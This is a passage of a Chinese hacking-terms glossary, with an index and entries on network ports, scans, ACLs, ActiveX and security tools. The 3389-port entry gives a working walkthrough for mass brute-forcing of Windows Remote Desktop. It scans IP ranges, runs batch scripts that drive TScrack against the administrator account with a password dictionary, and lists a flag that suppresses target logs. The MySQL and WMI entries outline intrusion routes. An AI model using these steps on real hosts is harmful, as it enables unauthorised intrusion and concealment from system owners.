- IceSword 131
- IDS 134
- IKE 137
- INIDS 138
- IPFWADM 144
- IPS 134
- IPchains 144
- IPSec 144
- IP 安全策略 148
- IP 地址过滤 150
- Kerberos 157
- KAV 158
- LAND 攻击 161
- Log Monitor 167
- LSA 溢出漏洞 169
- McAfee 174
- MD5 174
- Microsoft Visual Studio “VMI Object Broken” 控件代码执行漏洞 181
- Netfilter/Iptables 200
- NIDS 204
- NProtect 键盘加密技术 205
- OpenSSH 217
- OpenSSL 217
- OpenVPN LD_PRELOAD 环境变量传输漏洞 218
- PFX 225
- PGP 225
- PIN 237
- RC4、BLOWFISH、DES、TEA 247
- RealPlayer 溢出漏洞 248
- RSA 算法 256
- SEAL 266
- SNORT 289
- SSH 295
- SSL 296
- SSL VPN 298
- TLS 321
- UID 327
- UNICODE 漏洞 328
- URLSNARF 331
- X-Scan 353

### 渗透技术

- Banner 50
- CLONE—克隆账户 70
- DB_OWNER 76
- DNS 欺骗 87
- IISBANNER 136
- IIS 写权限 136
- IP Sniffer 141
- IP 欺骗 145
- JSP Webshell 156
- Man in the Middle 173
- PHPSHELL 234
- Rootkit 254
- SERV-U 本地权限提升漏洞 269
- ShellCode 276
- SMB 会话劫持 279
- xp_cmdshell 254
- Tracert 命令 323
- Windows Shell 343

### 调试技术

- DEBUG 81
- EIP 96
- ESP（堆栈指针寄存器）97
- ESP 定律 98
- INT3 命令 138
- MOV 183
- PRIVATE EXE PROTECTOR 239
- W32asm 338

### 特定名称

- ANSI 32
- Black hat 53
- BETA 53
- Bug 57
- CCNA/CCNP 67
- Cisco 69
- CMS 70
- Crack 74
- crypto++ 库 74
- CSDN 75
- DEMO 82
- EST 97
- Exploit 101
- GMP 大数库 114
- GMT 114
- Google 116
- GUI 120
- IBM 131
- IEEE 131
- JQQ、PQQ、VQQ、DQQ 155
- Microsoft 181
- MSI 185
- MySpace 194
- NUL 210
- OA 211
- ODAY 212
- OSDL 219
- OSI 219
- Phishing 226
- POWEROFF 238
- Promiscuous Mode 239
- PUBLIC 240
- Q 币 245
- reboot 249
- Root 254
- Safe mode 262
- Shutdown 276
- SIM 277
- Skype 277
- SOPHOS 292
- SPAM 292
- SUN 299
- SYMANTEC 304
- system 305
- Tool kids 322
- UPDATE 330
- WEB 标准 340
- VB6 333
- VB 334
- VC 335
- VC 编译器 333
- VML 335
- W32DASM 338
- WinSocket 编程 347
- WinPcap 345
- XOR 运算 354

### 程序语言与开发

- AJAX 技术 35
- API 45
- ASCII 码 45
- ASM 47
- ASP.NET 47
- C++ 59
- C32ASM 59
- C--FREE 58
- Chr() 68
- Delphi 81
- DLL 线程插入 86
- Eclipse 93
- Emacs 96
- GCC 110
- GDI 110
- GNU 工具集 116
- GPL 119
- GTK+ 120
- IDE 133
- INCLUDE 138
- JAVA 152
- JavaScript 152
- JDK 152
- JAVA 反编译器 153
- JRE 155
- JS 155
- JSESSIONID 155
- JSP 156
- JVM 157
- MEMCPY 176
- Microsoft Visual Studio 181
- MSDN 184
- NASM 196
- NOP 205
- OLE/COM 214
- OpenGL 216
- PERL 224
- perl 解释器 225
- Python 242
- RawSocket 247
- Resource Kit 252
- Sockcap 290
- SOCKET 291
- STRING 类型 298
- SEH 298
- TC++ 307

### 加密解密

- ASPACK 48
- Enigma Protector 96
- Escape() 97
- EXEINFO PE 100
- EXE Stealth 100
- eXpressor 101
- HEX 码 124
- Hying’s PE-Armor 130
- IAT 131
- ImportREC 138
- JScript.Encode 155
- LANGUAGE2000 161
- LORDPE 169
- NSPACK 205
- NTPacker 210
- OC 偏移量转换器 212
- OD 212
- OllyDbg 214
- OEP 213
- OVERLAY 220
- PE Sniffer 224
- PECompact 224
- PEiD 224
- Quick Unpack 245
- TELOCK 314
- UPX 330
- UPX SHELL 330
- YODA'S CRYPTOR 360
- Yodas Protector 360

### 硬件

- BIOS 54
- Cache 61
- HUB 123
- MBR 174
- ROM 254
- SCSI 265
- U 盘 332

### 数字

### 21端口  黑客技术基础

21 端口是 **FTP** 服务常用的端口。

### 23端口  黑客技术基础

23 端口是 **TELNET** 服务常用的端口。

### 135端口  黑客技术基础

135 端口是 **RPC** 与 **WMI** 服务默认打开的端口，利用 WMI 入侵在很多时候能产生与利用 **IPC** 入侵同样的效果。由于 WMI 服务是 Windows 系统提供的服务，因此利用它入侵不但不会引起用户注意，而且还很方便，只需要一个脚本代码就可以对远程系统进行管理。

WMI 服务默认打开的是 135 端口，因此 WMI 入侵也被称之为 135 端口入侵。关闭此端口的方法请见 **IPSec** 词条。

### 139端口  黑客技术基础

一般情况下，139 端口是为 **NetBIOS** 协议而开启的。当对方主机开放 139 端口时，也就有很大可能开放了 NetBIOS 服务，这时可以考虑利用 **IPC** 进行入侵了。关闭此端口的方法请见 **IPSec** 词条。

### 389端口  黑客技术基础

微软对 Windows 2000 最基本的改进之一就是增加了一项基于 LDAP（轻型目录访问协议）的目录服务，微软把这项服务称为活动目录。而 389 端口就是域服务器上为这个服务开放的一个端口，通过它可以查看整个域其他机器的详细信息。

### 445端口  黑客技术基础

445 端口也是为 **NetBIOS** 协议开放的一个端口，当 139 端口无法连接时，计算机会自动连接到目标主机的 445 端口以进行 NetBIOS 会话。关闭此端口的方法请见 **IPSec** 词条。

## 黑客术语图文辞典 → 3389端口

### 1433端口 黑客技术基础

即 SQL Server 的默认服务端口，通过它可以管理 SQL Server，同时也可以对数据库进行相应的操作。SQL Server 自带的查询分析器默认就是连接到这个端口对 SQL Server 进行操作，而我们平时常接触的 SQLexec 或 SQL 综合利用工具等都是通过连接这个端口来执行命令的。

### 3306端口 黑客技术基础

即 MySQL 所默认开放的端口，其关系与 1433 端口同 SQL Server 的关系一致。如果 MySQL 服务器存在弱口令，则可通过此端口进行连接并对其执行相应的数据库命令以达到入侵的目的。

- 常用的入侵思路有两个：
- 一个是创建一个表，写出 WEBSHELL 代码并导出，这个思路的前提是必须知道网站的绝对路径，同时数据库与网站必须放在同一台机器上。
- 另一个思路是从特定 DLL 文件装载相应的函数进行提权，这个思路的前提是必须能够向服务器上传文件。

### 3389端口 黑客技术基础

3389 端口是 Windows 终端服务的默认开放端口（详情请见 Terminal Services 词条），通过 3389 端口入侵系统是黑客的最爱，因为通过图形界面，可以像操作本地计算机一样来控制远程计算机，也常简称为 3389。3389 是系统的正常服务，是微软的远程桌面为了方便广大计算机管理员远程管理自己的计算机而设定的，只要有管理密码，3389 可以为任何管理者提供服务，当然这个端口是可以更改的。关于攻击 3389 端口的方法有很多，下面介绍一种比较典型的方法。

- 首先用 superscan 把所有开 3389 的主机都扫下来，接着用 x-scan 扫他们的弱口令，具体方法如下：
- 打开 superscan3，输入起始 IP 和终止 IP，填好以后再把“所有端口定义”的两个空改为 3389，接着把左边的速度调到最快，最后点开始。进度条走完以后，点“展开所有”，如图 0-1 所示。



图0-1

然后点“保存”，接着打开保存的文件，把所有的“* +”和“|--- 3389”都删除。这里有一个小技巧，打开文件后，依次选择“编辑”－“替换”，在查找内容中把“* +”填上，然后点“全部替换”，如图 0-2 所示。



“|--- 3389”的删除方法如上，最后输入空格，把空格替换掉，整理完毕后如图 0-3 所示。



下面就要请出强大的 3389 端口破解工具 TScrack 出场了。TScrack 是针对终端服务的一个密码破解程序，用来检查终端服务密码的强壮性。程序使用 msrdp 控件，可在本地虚拟远程终端连接窗口，通过密码字典进行破解。可以指定多种参数，使用比较灵活，破解速度视攻击主机与被攻击主机网络带宽而定。此软件可以只利用 3389 服务的登录框猜解密码，不再依赖原先的 139 端口了。

在 CMD 下启动 TScrack.exe，会首先分离出 main_scraper.nnt、MSRDP.OCX、MSWINSCK.OCX 这几个文件，然后就可以正常运行了。TScrack.exe 一共有这几个选项：

- `-h` 显示使用帮助然后退出
- `-V` 显示版本信息然后退出
- `-b` 密码错误时发出声音
- `-t` 同时发出多个连接，就是多线程
- `-N` 阻止在目标机上产生登录日志
- `-U` 卸载移除 tscrack 组件
- `-f` 使用 -F 后面的密码
- `-F` 间隔时间（频率）
- `-l` 使用 -L 后面的用户名
- `-w` 使用 -W 后面的字典
- `-p` 使用 -P 后的密码
- `-D` 登录主页面

下面就是实例操作了，首先用 SUPERSCAN 把 3389 机扫下来，整理后保存，IP 数一般在 100 个左右。接着用记事本写个 BAT 文件，代码如下：

## 【黑客术语图文辞典】

```bat
@if not exist !pcScan.txt goto noscan
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
:noscan
@echo 3389.txt no find or scan failed :(
```

这段代码的大概意思是从 3389.txt（刚刚用 SUPERSCAN 扫描 IP 而保存后的文件）里取一段字符，接着运行 hack 这段字符（也就是 IP）。下面为 HACK.BAT 代码：

```bat
@if not exist tscrack.exe goto noscan
@tscrack %1 -l administrator -w pass.dic >>rouji.txt
:noscan
@echo tscrack.exe no find or scan failed :(
```

这段代码的意思是：运行 tscrack，用户名为 administrator，字典文件为 PASS.DIC。

然后就是制作字典了，最好选一个好的字典工具，我选择的是“万能钥匙”字典生成器。虽然软件是老了一点，但功能绝对是所有字典里最强大的，唯一的缺点就是不能使用基本字符定义，其界面如图 0-4 所示。至于怎么配置，网上有许多这方面的文章，读者们可以自己去研究，这里要注意的是密码数应该保持在 2000 左右。最好在“万能钥匙”的倒数第二步里选择常用的一些数字和英文，自己再加一些特殊数字，例如：5201314、12345678 等。配置完成以后保存为 PASS.dic。



图 0-4

最后把 3389.TXT、3389.BAT、HACK.BAT、PASS.DIC 及 TSCRACK 所有的文件放在一个文件夹里，启动 3389.BAT 后如图 0-5 所示。



图 0-5

### 00替换法｜攻击方法与行为

指将文件特定位置用 ASCII 码为 0 的字符进行替换。而这个字符一般又被认为是字符串终止字符，所以许多语言（如 C）对字符处理的函数遇到这个字符就认为字符串已经结束。00 替换法经常用到许多特定的地方以逃避特定字符的检查。许多上传漏洞可以利用这个方法进行上传。

### 127.0.0.1｜黑客技术基础

127.0.0.1 是给本机环回接口所预留的 IP 地址。任何一台电脑，不管是否连接到 INTERNET 上，127.0.0.1 对于自己来说都是自己。如果没有这个 loopback 接口，通常上层应用无法与自己联系，因为它仍然会把数据往 IP 层发送，数据到了 IP 层发现目的地是自己，则会被回环驱动程序送回。

### 2级代理｜黑客技术基础

所谓 2 级代理，是指在代理服务器后的代理服务器，二级代理将一级代理服务器的本地连接作为 Internet 连接。由于二级代理服务器下的客户机是在一级和二级代理服务器的双重规则下访问 Internet，因此，借助于二级代理可以有效地实现分级控制。

Microsoft ISA、SyGate、WinGate、WinRoute、CCProxy 等代理服务器软件均支持二级代理。

## 32位以及64位系统｜操作系统及其相关

32 位与 64 位是操作系统里的重要概念，其中的位指的是 CPU GPRs（General-Purpose Registers，通用寄存器），简单地理解就是 CPU 的寻址空间，其数据宽度为 32 位或 64 位。位指令集就是运行位数据的指令，也就是说处理器一次可以运行多少 bit 数据。

1985 年 Intel 推出了首颗 32 位处理器 80386，1995 年 8 月，微软推出了 Windows 95，称为操作系统发展史上一个里程碑。从 Windows 95 到 Windows 98/ME，都是混合 16/32 位计算的操作系统，并不是纯 32 位操作系统。

2000 年，微软推出了 Windows 2000，开启了个人桌面 32 位计算与应用的新时代。2001 年发布的 Windows XP 成为目前使用率最高的操作系统。

64 位的优点在于可以进行更大范围的整数运算和支持更多的内存。大家不能因为数字上的变化而简单地认为 64bit 处理器的性能是 32bit 处理器性能的两倍。实际上在 32bit 应用下，32bit 处理器的性能甚至会更强，即使是 64 位处理器，目前情况下也是在 32bit 应用下性能更强。所以要认清 64 位处理器的优势，但不可迷信 64 位。

从个人桌面系统用户的角度来看，内存容量的限制只是体现 64 位计算技术优势的一个方面，大量数据处理才是 64 位真正发挥功效的地方。

### 3389连接器｜黑客技术基础

微软自带的远程桌面控制加强版，也就是我们常说的 3389 连接器。


### A类地址｜黑客技术基础

一个 A 类 IP 地址由 1 个字节（每个字节是 8 位）的网络地址和 3 个字节的主机地址组成，网络地址的最高位必须是“0”，即第一段数字范围为 1-127。每个 A 类地址可连接 16777214 台主机，Internet 有 126 个 A 类地址。例如 126.3.12.234 和 16.53.3.6 都是 A 类 IP 地址，详情请见 IP 地址词条。

### Access｜数据库

Access 全名为 Microsoft Office Access，是由微软发布的关系式数据库管理系统，它是网络上广为使用的数据库，我们常见的以 MDB 为后缀名的文件都是 Access 数据库。其主要特点如下：

- 提供了数据库最常用的功能，使用便捷；
- 系统资源占用低，不需要数据库服务器的支持；
- 与 Office 版本软件紧密集成，便于将数据库迁移到 SQL Server 上。

不过其缺点是无法支持较大的数据量，不支持数据库高级特性，如并发访问、事务处理等等。但由于它的快速灵巧，深受许多小型网站的青睐。

### Achilles｜应用程序

Achilles 是一个设计用来测试 Web 应用程序安全性的工具，如图 A-1。它是一个代理服务器，运行后会占用本地计算机的 5000 端口，在一个 HTTP 会话中扮演着“中间人”（man-in-the-middle）的角色。一个典型的 HTTP 代理服务器将在客户端浏览器和 Web 服务器间转发数据包，但 Achilles 却截取发向任一方的 HTTP 会话数据，并且在转发数据前可以让用户修改这些数据。

这个代理与其他代理软件不同的是，使用者可以在发送请求和收到请求的时候把数据拦截下来并且可以修改它，然后再考虑是否发送。当分析一个网站，如果想知道我到底提交了什么信息，我收到的 **Cookie** 是什么时就可以用 Achilles 来进行快速分析。



### ACK｜黑客技术基础

**TCP** 数据包首部中的确认标志，对已接收到的 TCP 报文进行确认。

在 TCP/IP 协议中，如果接收方成功地接收到数据，那么会回复一个 ACK 信号。通常 ACK 信号有自己固定的格式和长度大小，由接收方回复给发送方。其格式取决于采取的网络协议，当发送方接收到 ACK 信号时，就可以发送下一个数据。如果发送方没有收到信号，那么发送方可能会重发当前数据包，也可能停止传送数据，具体情况取决于所采用的网络协议。ACK 信号通常是一个 ASCII 字符，不同的协议中 ACK 信号都不一样。

### ACK扫描｜攻击方法与行为

这是一种高级的扫描方式，其通常用来探测防火墙的规则集。一般情况下，这种扫描不能确定端口是否开放，它用于发现防火墙规则，确定它们是否在运行状态及哪些端口是被过滤的。

它向特定的端口发送 ACK 包（使用随机的应答/序列号），如果返回一个 RST 包，这个端口就标记为过滤状态。如果什么都没有返回，或者返回一个不可到达的 ICMP 消息，这个端口就已经被过滤了。

## ACK风暴（黑客技术基础）

ACK 风暴（ACK Storm）是指大量传输控制协议（TCP）的 ACK 包产生的情形，通常是因为会话劫持没有处理好，从而大量地产生 ACK 包。会话双方接收到一个不期望的数据包后，就会用自己期望的序列号返回 ACK 包；而在另一端，这个数据包也不是所期望的，就会再次以自己期望的序列号返回 ACK 包……于是，就这样来回往返，形成了恶性循环，最终导致 ACK 风暴。关于序列号以及 TCP 包的详细情况请见 TCP 词条。

## ACL（安全技术）

ACL 即访问控制列表，它是用来对访问控制模型中的访问者进行控制的列表，它决定什么样的访问者可以执行什么样的操作，这种机制在防火墙与大多数系统中都有实际应用。如防火墙中的访问控制列表用来告诉防火墙或路由器可以接收和拒绝哪些数据包。至于数据包是被接收还是拒绝，可以由类似于源地址、目的地址、端口号等的特定指示条件来决定。

Windows 中也有许多地方存在访问控制列表，如 Windows Server 2008 防火墙等都有这种列表，不过应用最为广泛的是磁盘控制访问列表，通过它可以设置每个用户对任意文件夹与盘符的访问权限。下面给出两个用 CACL 命令修改访问控制列表权限的实例。

#### 实例一：查看文件夹的访问控制权限

如果我们希望查看 h:\temp 文件夹的访问控制权限，只需要依次点击“开始”--“运行”，或切换到命令提示符模式下，输入如下命令：

```bash
C:\>md xl
C:\>cacls c:\xl
c:\xl BUILTIN\Administrators:(OI)(CI)F
NT AUTHORITY\SYSTEM:(OI)(CI)F
HNCJ\xjiaoliang,F
CREATOR OWNER:(OI)(CI)(IO)F
BUILTIN\Users:(OI)(CI)R
BUILTIN\Users:(CI)(特殊访问:)
FILE_APPEND_DATA

BUILTIN\Users:(CI)(特殊访问:)
FILE_WRITE_DATA
```

此时，我们会看到所有用户组和用户对 h:\temp 文件夹的访问控制权限项目，这里的 CI 表示 ACE 会由目录继承；OI 表示 ACE 会由文件继承；IO 表示 ACI 不适用于当前文件或目录；每行末尾的字母表示控制权限，例如 F 表示完全控制；C 表示更改；W 表示写入。

#### 实例二：修改文件夹的访问控制权限

假如你希望给予本地用户 `xl` 完全控制 `h:\xl` 文件夹及子文件夹中所有文件的访问权限，只需要键入命令：

```bash
cacls h:\xl /t /e /c /g xl:f
```

这里的“`/t`”表示修改文件夹及子文件夹中所有文件的 ACL；“`/e`”表示仅做编辑工作而不替换；“`/c`”表示在出现拒绝访问错误时继续；而“`/g xl:f`”表示给予本地用户 `xl` 完全控制权限，这里的“`f`”代表完全控制，如果只是希望给予读取权限，那么应当是“`r`”。

## ActiveX插件（黑客技术基础）

ActiveX 插件也叫 ActiveX 控件，以前也叫做 OLE 控件或 OCX 控件，它是一些软件组件或对象，可以将其插入到 Web 网页或其他应用程序中。

ActiveX 插件实际上是指一些可执行的代码或一个程序，比如一个 `.EXE`、`.DLL` 或 `.OCX` 文件。通过 ActiveX 技术，程序员就能够将这些可复用的软件组装到应用程序或者服务程序中去，嵌入到网页中，随网页传送到客户端的浏览器上，并在客户端执行。通过编程，ActiveX 控件可以与 Web 浏览器或软件客户端进行交互，例如在网页上嵌入播放器或杀毒软件等，这都需要 ActiveX 插件的支持。

一般软件需要用户单独下载后进行安装，而 ActiveX 插件是当用户浏览到特定的网页时，浏览器即可自动下载并提示用户安装。ActiveX 插件安装的一个前提是必须经过用户的同意及确认。

大部分浏览器都在不同程度上支持 ActiveX 控件，这允许网页通过脚本和控件交互产生更加丰富的效果，同时也带来一些安全性的问题。

正因为 ActiveX 可以插入到网页之中，所以，一旦 ActiveX 程序本身有问题，则会导致很多问题。许多网页木马正是利用了一些 ActiveX 插件本身的漏洞进行溢出，再执行特定指令以达到下载木马并运行的目的。例如常见的暴风影音网页木马、超星阅读器网页木马等都是利用这个类型的漏洞。

## Acunetix WVS（安全技术）

Acunetix WVS 全称是 Acunetix Web Vulnerability Scanner，著名的商业漏洞扫描器，如图 A-2 所示。它能自动检测网页程序漏洞，例如 SQL 注入、跨网站脚本和验证页面弱密码破解。Acunetix WVS 有着非常友好的用户界面，还可以生成个性化的网站安全评估报告。

## ▌黑客术语图文辞典▌→Admin

